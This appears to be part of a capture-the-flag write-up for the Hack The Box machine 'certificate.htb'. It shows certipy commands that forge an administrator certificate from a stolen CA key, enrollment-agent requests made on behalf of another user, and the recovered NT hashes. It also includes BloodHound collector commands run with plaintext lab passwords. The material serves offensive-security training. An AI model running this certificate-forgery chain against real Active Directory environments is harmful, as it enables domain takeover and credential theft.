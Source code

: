 We will use this private key to sign new certificate that have the administrator upn:
```
certipy forge \                                                                              
    -ca-pfx 'Certificate-LTD-CA.pfx' -upn 'administrator@certificate.htb' \                      
    -sid 'S-1-5-21-515537669-4223687196-3249690583-500' -crl 'ldap:///' 
```

Try to auth using this forged certificate as admin:
```
certipy auth -pfx 'administrator_forged.pfx' -dc-ip '10.10.11.71'

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb' 
[*]     SAN URL SID: 'S-1-5-21-515537669-4223687196-3249690583-500'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-500'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT                                     
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

GG

---

```steps
certipy req \
    -u 'lion.sk' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'DC01.certificate.htb' \
    -ca 'CERTIFICATE-DC01-CA' -template 'Delegated-CRA' -ns 10.10.11.71 


certipy req \                                                                                                                                                                                  
    -u 'lion.sk' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'ryan.k' -ns 10.10.11.71 

certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6

```


```collectors
bloodhound-ce-python -d certificate.htb -dc dc01.certificate.htb -u 'sara.b@certificate.htb' -p 'Blink182'  --collection All --zip -k -ns 10.10.11.71
rusthound-ce -u 'sara.b' -p 'Blink182' -d certificate.htb -f dc01.certificate.htb

```